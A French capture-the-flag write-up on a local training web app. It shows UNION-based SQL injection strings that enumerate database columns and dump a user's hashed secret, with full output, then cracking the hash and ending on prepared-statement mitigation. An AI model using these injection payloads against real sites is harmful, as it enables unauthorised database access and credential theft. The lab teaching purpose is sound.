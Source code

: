 # SQL injection avancee

Cette exercice est similaire a la version `SQL injection basic`.

Depuis la page `members` (`http://localhost:8080/?page=member`) on a acces a un formulaire qui permet d'afficher le `firstname` et le `lastname` d'un utilisateur a partir de son ID.

La page fait certainement une requete toute simple du type:

        SELECT firstname, lastname FROM users WHERE id = $id

Ou `$id` en PHP pourrait etre $_GET['id'], par exemple, et donc on peut exploiter une faille de type `Injection SQL`.

En essayant diffrents ID, on trouve pour l'ID 5 la sortie suivante:

        ID: 5
        First name: Flag
        Surname : GetThe

On essaye donc d'injecter une requete pour recuperer la liste des tables:

        1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS

Et on obtient la sortie suivante:

        [...]

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        First name: users
        Surname : user_id

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        First name: users
        Surname : first_name

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        First name: users
        Surname : last_name

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        First name: users
        Surname : town

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        First name: users
        Surname : country

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        First name: users
        Surname : planet

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        First name: users
        Surname : Commentaire

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        First name: users
        Surname : countersign

        [...]

On en deduit qu'une table `users` existe avec les champs `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`.

Les champs `Commentaire` et `countersign` doivent probablement conternir le flag pour le membre d'ID 5.

On essaye d'injecter la requete suivante:

        1 OR 1 = 1 UNION SELECT Commentaire, countersign FROM users WHERE user_id = 5

Et on obtient la sortie suivante, qui contient le flag et l'instruction pour le dechiffrer:

        ID: 1 OR 1 = 1 UNION SELECT Commentaire, countersign FROM users WHERE user_id = 5
        First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
        Surname : 5ff9d0165b4f92b14994e5c685cdce28

Contrairement a la version `basic` de cette faille, on ne connait pas le type du hash qu'on a obtenu. On le met donc sur le site `https://www.tunnelsup.com/hash-analyzer/` et il nous indique que c'est un hash `md5`.

On le dechiffre via le site `https://www.dcode.fr/md5-hash` et on obtient: `FortyTwo`

On le met en lettres minuscules et on applique dessus l'algo `Sh256` via le site `https://www.sha256.fr/` pour obtenir le flag:

        10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Eviter cette faille

Pour eviter ce genre de faille, il suffirait de ne pas injecter directement l'ID dans la requete, d'utiliser des requetes preparees ou d'utilisers des ORM (object-relational mapping).

